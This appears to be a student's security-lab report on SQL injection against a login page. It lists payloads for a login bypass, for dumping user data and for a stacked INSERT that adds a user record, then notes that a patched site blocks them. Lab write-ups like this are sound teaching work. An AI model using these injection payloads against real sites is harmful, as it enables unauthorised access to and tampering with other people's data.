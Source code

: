 ## Project Report

### Task 1
- **Goal**: Impersonate an exitsting user without providing the password.
- Command use: `Cat'#` 
  - This command exploits the vulnerability of the SQL injection in the login page.
- The picture below show that the command `Cat'#` has been executed successfully.

![Task1](Graphic/Task1.png)

### Task 2
- Steal the user information from the database.
- Command use: `Cat' OR '1==1'#`
- The picture below show that the command `Cat' OR '1==1'#` has been executed successfully.

![Task2](Graphic/Task2_Database.png)
### Task 3
- Insert a new record into the table. The following picture have the code I use to insert a new record into the table. I pretend to be user **David** to insert a new record into user **cat**'s table.
- Command use:

```sql
David'; INSERT INTO users(first, uname, passwd, profile) VALUES('cat', 'cat', PASSWORD('cat'), 'Injection success')#
```
- The picture below show that the new record has been inserted successfully.

![Task3](Graphic/Task3_Injection.png)

- The picture below show the table after the new record has been inserted.

![Task3](Graphic/Task3_NewInfo.png)

### Task 4
- None of the attack shown above will work in the new website. Since the new website has been modified to prevent SQL injection attack. The following picture show that the command `Jacob'#` will not work in the new website.

![Task4](Graphic/Task4.png)
